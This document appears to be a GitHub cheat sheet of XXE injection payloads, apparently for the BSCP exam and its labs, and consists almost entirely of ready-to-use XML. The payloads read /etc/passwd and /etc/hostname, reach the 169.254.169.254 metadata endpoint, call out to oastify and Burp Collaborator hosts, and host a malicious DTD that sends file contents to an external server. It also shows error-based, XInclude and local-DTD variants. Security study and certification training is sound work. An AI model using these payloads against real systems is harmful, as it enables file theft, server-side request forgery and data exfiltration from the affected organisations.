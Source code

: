 # XXE



1. payload
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```


2.Payload

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>

```

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/XXE-2.jpg)

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/XXE-3.jpg)

3.Payload


```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://312d7f49j37e6gjy10vxd8qvhmndb3zs.oastify.com"> ]>

<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>

```


4.Payload
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://435e9g6al49f8hlz31xyf9swjnped51u.oastify.com"> %xxe; ]>

<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```


5.Payload

```
Place the Burp Collaborator payload into a malicious DTD file:
Path : https://exploiturl.com/exploit.dtd

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;



__________________________________________________________

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-server.net/exploit.dtd"> %xxe;]>

```


6.Payload

```

Exploit server :

<!ENTITY % filepass SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; errorabc SYSTEM 'file:///invalid/%filepass;'>">
%eval;
%errorabc;


________________________________________________________________

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a63005a0340421581be65cf019500c8.exploit-server.net/exploit"> %xxe;]>

<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

```

7.Payload
```


productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

&storeId=1
```


9.Payload

```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```